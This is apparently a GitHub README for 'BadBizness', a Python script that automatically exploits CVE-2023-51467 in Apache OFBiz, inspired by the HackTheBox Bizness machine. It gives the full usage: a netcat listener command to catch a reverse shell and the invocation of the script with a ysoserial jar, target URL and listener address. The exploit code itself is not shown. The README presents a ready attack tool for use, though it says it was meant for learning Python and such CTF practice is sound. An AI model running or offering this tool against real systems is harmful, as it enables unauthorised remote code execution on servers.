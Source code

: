 # BadBizness
Automatic exploitation script for the Java web framework [OF Biz](https://ofbiz.apache.org/) under CVE-2023-51467. Inspired by the HackTheBox machine [Bizness](https://app.hackthebox.com/machines/582).

## Usage and Example
This script requires the tool [ysoserial](https://github.com/frohoff/ysoserial/releases) and OpenJDK version 11. See usage menu for installation.

Setup a listener to catch the shell with your preferred method. Here is a netcat example:
```
nc -nlvp 1337
```
Execute the script:
```
python3 badbizness.py [path to ysoserial-all.jar] [TARGET BASE URL] [LISTENER IP] [LISTENER PORT]

python3 badbizness.py /home/twopoint/ysoserial-all.jar http://example.com:1337 10.10.10.10. 1337
```
## Disclaimer and Credit
This tool was meant as a way to learn more about Python. I credit [this](https://github.com/abdoghazy2015/ofbiz-CVE-2023-49070-RCE-POC) script for helping me thoroughly.
